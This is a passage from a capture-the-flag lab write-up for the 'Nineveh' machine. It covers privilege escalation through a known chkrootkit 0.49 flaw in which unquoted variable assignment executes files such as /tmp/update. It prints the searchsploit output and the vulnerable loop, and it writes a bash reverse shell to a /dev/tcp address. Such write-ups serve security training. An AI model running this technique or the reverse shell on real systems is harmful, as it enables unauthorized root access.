 Interestingly, it did identify my webshell.

I uploaded and ran [pspy](https://github.com/DominicBreuker/pspy), and each minute, there’s a flurry of activity, with many of the processes referencing `/usr/bin/chkrootkit` . [chkrootkit](http://www.chkrootkit.org/) is a tool that will check a host for for signs of a rootkit.

### chkroot Exploit

Fortunately for me, there’s an exploit against `chkrootkit`:

```

root@kali# searchsploit chkrootkit
---------------------------------------------------- ----------------------------------------
 Exploit Title                                      |  Path
                                                    | (/usr/share/exploitdb/)
---------------------------------------------------- ----------------------------------------
Chkrootkit - Local Privilege Escalation (Metasploit | exploits/linux/local/38775.rb
Chkrootkit 0.49 - Local Privilege Escalation        | exploits/linux/local/33899.txt
---------------------------------------------------- ----------------------------------------
Shellcodes: No Result

```

The `txt` file says that any file in `$SLAPPER_FILES` will run due to a typo because of this loop:

```

   for i in ${SLAPPER_FILES}; do
      if [ -f ${i} ]; then
         file_port=$file_port $i
         STATUS=1
      fi

```

The intended behavior is to set `$file_port` to be equal to `"$file_port $i"`. But because the `""` are missing, `bash` will treat that as setting `file_port=$file_port` and then running `$i`.

`$SLAPPER_FILES` is set a few lines earlier:

```

   SLAPPER_FILES="${ROOTDIR}tmp/.bugtraq ${ROOTDIR}tmp/.bugtraq.c"
   SLAPPER_FILES="$SLAPPER_FILES ${ROOTDIR}tmp/.unlock ${ROOTDIR}tmp/httpd \
   ${ROOTDIR}tmp/update ${ROOTDIR}tmp/.cinik ${ROOTDIR}tmp/.b"a

```

### Shell

I’ll write a simple reverse shell to `/tmp/update` and make it executable:

```

amrois@nineveh:/tmp$ echo -e '#!/bin/bash\n\nbash -i >& /dev/tcp/10.10.14.24/443 0>&1'
#!/bin/bash

bash -i >& /dev/tcp/10.10.14.24/443 0>&1
amrois@nineveh:/tmp$ echo -e '#!/bin/bash\n\nbash -i >& /dev/tcp/10.10.14.24/443 0>&1' > update
amrois@nineveh:/tmp$ chmod +x update

```
